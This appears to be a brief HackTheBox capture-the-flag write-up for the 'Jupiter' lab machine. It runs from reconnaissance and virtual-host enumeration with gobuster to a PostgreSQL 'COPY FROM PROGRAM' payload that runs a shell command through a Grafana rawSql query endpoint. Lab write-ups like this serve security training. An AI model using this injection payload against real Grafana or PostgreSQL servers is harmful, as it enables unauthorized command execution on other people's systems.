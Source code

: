 # HackTheBox - Jupiter

### Rating: MEDIUM

nmap scan, find port 80 is open hosting http

website is basic, nothing found through directory traversal

virtualhost enumeration finds a virtual host address kiosk.jupiter.htb

using gobuster: ```gobuster vhost -u http://jupiter.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain```

add new virtual hosts to /etc/hosts file

kiosk.jupiter.htb is a grafana site

using burpsuite see POST requests being made to http://kiosk.jupiter.htb/api/ds/query

in the POST request, see that there is rawSql postgres queries being sent and executed

in payloadsallthethings there is a postgres sql injection -> RCE vulnerability 

payload:
"rawSql":"drop table if exists cmd_exec; \n create table cmd_exec(cmd_output text); \n copy cmd_exec FROM PROGRAM 'whoami'; \n select * from cmd_exec; \n drop table if exists cmd_exec;"